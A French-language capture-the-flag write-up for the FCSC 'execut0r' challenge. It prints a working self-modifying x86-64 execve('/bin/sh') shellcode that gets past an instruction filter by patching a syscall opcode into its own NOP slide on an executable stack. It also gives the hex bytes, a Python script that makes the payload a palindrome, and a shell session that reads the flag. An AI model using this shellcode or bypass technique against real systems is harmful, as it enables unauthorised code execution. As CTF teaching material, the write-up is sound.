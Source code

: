 # Énoncé

Voici un exercice de shellcoding comme on les aime ! [ ou pas :-) ]

SHA256(execut0r) = de551ab323fc4d86cb8567d6839e90162b01a00c7c3ab53703dd99428dc25547.

`nc challenges.france-cybersecurity-challenge.fr 2054`

Note : le binaire à exploiter n'a pas accès à Internet.


# Solution

Pour concocter le shellcode, je me suis beaucoup aidé de :
 - Ce site qui est toujours ultra pratique : https://defuse.ca/online-x86-assembler.htm
 - Un débugger, pour débugger/tester mes shellcodes sur le execut0r local avant de l'envoyer au serveur distant

Comme on le voit dans le script run.py, on ne peut pas utiliser certains types d'instructions qui sont interdites/filtrées !
Il s'agit notamment des `ret` (sachant qu'un `push XXX; ret;` aurait permis de faire l'équivalent d'un `jmp XXX`), de `iret` (retour suite à une interruption), d'interruptions, de syscalls, de jmps et de calls.
Cela est volontairement fait pour nous embêter, c'est difficile d'arriver à exécuter du code arbitraire si tous les moyens d'effectuer des branchements nous sont interdits... Il va donc falloir ruser.

Si on voulait faire un classique syscall `execve('/bin/sh', 0, 0)`, on pourrait exécuter toutes nos instructions (des mov et pop principalement), à part la fameuse instruction `syscall` qui permet de le déclencher !
Donc comment faire pour bypasser ce filtrage ???

Eh bien rien de si sorcier que ça : en inspectant le programme execut0r, on voit que le programme est écrit sur la stack et que celle-ci a les permissions "rwx".
On ne peut certes pas directement insérer une instruction `syscall` dans notre shellcode, par contre rien ne nous empêche d'utiliser les mov, pop, push ou autres...

Comme le shellcode est sur la stack, on peut donc utiliser une instruction du type `mov [rsp+???], $reg` (ou `mov [rbp-???], $reg`) pour aller patcher "at-runtime" notre shellcode afin d'y insérer une instruction que l'on veut... Comme l'instruction syscall !
L'idée serait donc de faire une sorte de self-modifying shellcode, de cette manière :
 - Faire un `mov rcx, 0x909090909090050f` pour charger l'instruction "syscall; nop*6" dans RCX (l'opcode de syscall étant 0x0f05 pour info)
 - Faire un `mov [rsp+???], rcx` pour aller patcher/écrire l'instruction syscall sur notre shellcode.

Reste juste à déterminer l'offset ??? pour que le patch se fasse en plein milieu d'une NOP slide de notre shellcode par exemple.
Pour trouver cet offset, j'ai 1) inséré une NOP slide assez conséquente à la fin de mon shellcode, 2) testé dans un débugger pour voir, par rapport à RSP, quel était l'offset où tombait à peu près cette NOP slide.

--> Finalement j'ai trouvé que la NOP slide tombait environ vers [RSP+136] !

Notons que le programme run.py insère un prologue et un epilogue avant et après notre shellcode, à vrai dire je ne m'en suis guère soucié et le shellcode que je vais faire est assez standalone (= il fonctionne dans tous les cas, qu'il soit exécuté "tout seul" ou avec l'épilogue et le prologue de run.py inséré avant et après).
La seule chose à noter, c'est que le shellcode prologue inséré par run.py reset entre autres RBP à 0 (mais heureusement laisse RSP intact) !
Donc si on doit écrire quelque-chose sur la stack, il faut le faire en passant par RSP et surtout pas par RBP puisqu'il est reset à 0 par le shellcode prologue de run.py !

Ceci étant dit, on peut maintenant écrire notre shellcode ! Outre ce que j'ai expliqué au-dessus, tout le reste est très classique d'un `execve('/bin/sh', 0, 0)`.
Voici le shellcode final :

```
// On push "/bin/sh\0" sur la stack, et on load l'adresse de la string dans RDI
mov rax, 0x0068732f6e69622f
push rax
mov rdi, rsp

// On set les registres comme il faut pour un syscall execve('/bin/sh', 0, 0)
mov rax, 0x3b
mov rsi, 0
mov rdx, 0

// On patche le shellcode écrit sur la stack pour y insérer une instruction syscall
mov rcx, 0x909090909090050f // 0x0f05 = opcode de "syscall"
mov [rsp+136], rcx          // on patche l'instruction dans la NOP slide du shellcode situé sur la stack (on passe par RSP pour ce faire, pas par RBP qui est set à 0 par run.py)


// Le syscall sera écrit/patché par le mov du dessus dans la NOP slide qui suit ! :)
nop * 28
```

En hexa, il nous donne : `48B82F62696E2F736800504889E748C7C03B00000048C7C60000000048C7C20000000048B90F0590909090909048898C248800000090909090909090909090909090909090909090909090909090909090`
Pour qu'il soit accepté par le programme, il ne reste plus qu'à le "palindromer", c'est-à-dire faire en sorte qu'il se lise dans les deux sens... Un peu comme un effet mirroir, ou comme le rendre symétrique en fait !
En gros, si notre shellcode est "01 02 03", il faudra qu'on l'envoie comme ça au programme : "01 02 03 03 02 01"

En quelques lignes de Python on peut "mirroiriser" notre shellcode, voici le script utilisé :

```
#!/usr/bin/python3

def mirroirMirroir(scHex):
    scBytes = bytes.fromhex(scHex)
    scBytesPalindrome = scBytes + scBytes[::-1]
    print(scBytesPalindrome)
    
    scHexPalindrome = bytearray(scBytesPalindrome).hex()
    print(scHexPalindrome)


sc = "48B82F62696E2F736800504889E748C7C03B00000048C7C60000000048C7C20000000048B90F0590909090909048898C248800000090909090909090909090909090909090909090909090909090909090"
mirroirMirroir(sc)
```

Evidemment, la partie "mirroirisée" de notre shellcode va donner des instructions complètement "junk" qui vont faire planter le programme.
MAIS, comme on aura patché et surtout exécuté notre instruction "syscall" AVANT de tomber sur la partie mirroirisée junk... Eh bien on aura ouvert notre shell avant que cette partie soit exécutée !
Donc au final, on n'a pas à se soucier du tout de cette partie, ce qui nous permet de bypasser la contrainte que voulait probablement nous imposer le challmaker :-) (faire des instructions qui s'exécutent de manière cohérente dans les deux sens).

En exécutant le script du-dessus, on obtient : `48b82f62696e2f736800504889e748c7c03b00000048c7c60000000048c7c20000000048b90f0590909090909048898c2488000000909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909000000088248c8948909090909090050fb94800000000c2c74800000000c6c7480000003bc0c748e78948500068732f6e69622fb848`

Ne reste plus qu'à le copier-coller dans l'entrée du programme "run.py" du serveur distant (nc challenges.france-cybersecurity-challenge.fr 2054) :
```
Enter your shellcode (hex, at most 1024 bytes):
48b82f62696e2f736800504889e748c7c03b00000048c7c60000000048c7c20000000048b90f0590909090909048898c2488000000909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909000000088248c8948909090909090050fb94800000000c2c74800000000c6c7480000003bc0c748e78948500068732f6e69622fb848
ls
execut0r
flag.txt
run.py
cat flag.txt
FCSC{662c7ce1f85b5bb4a874a9ecddae4ea9b24d5ef0ce72c28df162ee8311b19ec3}
```

Miracle, on a bien reçu notre flag !
Flag : FCSC{662c7ce1f85b5bb4a874a9ecddae4ea9b24d5ef0ce72c28df162ee8311b19ec3}